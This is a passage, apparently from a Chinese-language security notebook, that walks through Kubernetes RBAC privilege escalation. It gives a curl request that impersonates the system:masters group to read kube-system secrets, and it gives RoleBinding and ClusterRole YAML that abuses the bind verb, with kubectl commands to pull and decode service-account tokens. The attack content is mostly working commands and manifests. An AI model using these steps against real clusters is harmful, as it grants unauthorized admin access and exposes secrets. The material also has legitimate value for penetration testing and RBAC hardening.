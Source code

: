 ```plain
roleRef:
  kind: ClusterRole
  name: hx-sa-impersonate-role
  apiGroup: ""


#获取指定ServiceAccount的token
sudo kubectl get secret -n kube-system |grep hx-sa-impersonate
sudo kubectl get secret hx-sa-impersonate-token-qxt7l -o jsonpath={.data.token} -n kube-system |base64 -d
```

模拟用户成功提权

```plain
curl -k -v -XGET -H "Authorization: Bearer <JWT TOKEN (of the impersonator)>" \ -H "Impersonate-Group: system:masters"\ -H "Impersonate-User: null" \ -H "Accept: application/json" \ https://<master_ip>:<port>/api/v1/namespaces/kube-system/secrets/
```

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665471325885-59d5a24a-855b-4e66-8b87-f9269b1acdc9.png)

### Bind
用有bind权限允许用户将高角色绑定到当前已经被控制的帐户导致权限提权。

```plain
#创建hx-sa-bind-test ServiceAccount
kubectl create sa hx-sa-bind-test

#创建角色，下面的ClusterRole使用了bind权限，允许用户创建一个绑定ClusterRole(默认的高特权角色)的RoleBinding，并添加任何用户，包括自己
kind: ClusterRole
apiVersion: rbac.authorization.k8s.io/v1
metadata:
  name: hx-sa-bind-role
rules:
- apiGroups: ["*"]
  resources: ["rolebindings"]
  verbs: ["create"]
- apiGroups: ["*"]
  resources: ["clusterroles"]
  verbs: ["bind"]
  resourceNames: ["admin"]

#创建角色绑定
kind: ClusterRoleBinding
apiVersion: rbac.authorization.k8s.io/v1
metadata:
  name: hx-sa-bind-rolebinding
subjects:
- kind: ServiceAccount
  name: hx-sa-bind-test
  namespace: default
roleRef:
  kind: ClusterRole
  name: hx-sa-bind-role
  apiGroup: ""

#获取指定service account的token
sudo kubectl get secret  |grep hx-sa-bind-test
sudo kubectl get secret hx-sa-bind-test-token-n82cs -o jsonpath={.data.token}  |base64 -d
```

